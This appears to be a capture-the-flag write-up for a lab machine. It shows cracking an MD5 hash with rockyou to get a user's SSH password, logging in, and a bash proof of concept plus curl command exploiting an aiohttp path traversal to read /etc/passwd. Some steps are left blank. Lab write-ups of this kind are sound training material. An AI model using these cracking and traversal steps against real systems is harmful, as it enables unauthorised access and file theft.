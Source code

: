 







In the `app.py` file, we can read this
```
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```

We can extract this somthing like this
```

```



```
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=raw-md5 rosa_credential.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)
1g 0:00:00:00 DONE (2024-11-12 00:03) 8.333g/s 24848Kp/s 24848Kc/s 24848KC/s uniden20..unicorniorosa89
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

So we get a password for rosa 
```
login: rosa
passd: unicorniosrosados
```

We can test for ssh persmision and it works !
```
...
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Nov 11 22:26:49 2024 from 10.10.15.51
rosa@chemistry:~$
```

We can easly get the flag
```
c45a4f714eb9a1482b55f535067d3e22
```


we get this in the output
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1234          0.0.0.0:*               LISTEN      139901/ssh
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 ::1:1234                :::*                    LISTEN      139901/ssh
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

```
curl http://localhost:8080 --head
```

We've got the following answer
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Mon, 11 Nov 2024 23:52:18 GMT
Server: Python/3.9 aiohttp/3.9.1
```

Let's check attacks for aiohttp, first with `searchsploit`
```
Exploits: No Results
Shellcodes: No Results
```

No results, in the web there's a CVEC , here's a PoC
```
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```



```
curl -s --path-as-is http://localhost:8080/static/../../../../../etc/passwd
```
